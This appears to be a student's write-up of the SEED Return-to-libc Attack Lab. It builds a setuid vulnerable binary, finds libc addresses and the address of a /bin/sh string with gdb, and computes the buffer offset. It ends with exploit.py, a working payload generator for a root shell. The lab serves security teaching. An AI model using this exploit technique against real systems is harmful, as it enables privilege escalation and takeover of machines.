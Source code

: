 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `\bin\sh` is `0xbffffdef`.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 32
sh_addr = 0xbffffdef       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 28
exit_addr = 0xb7e369d0    # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
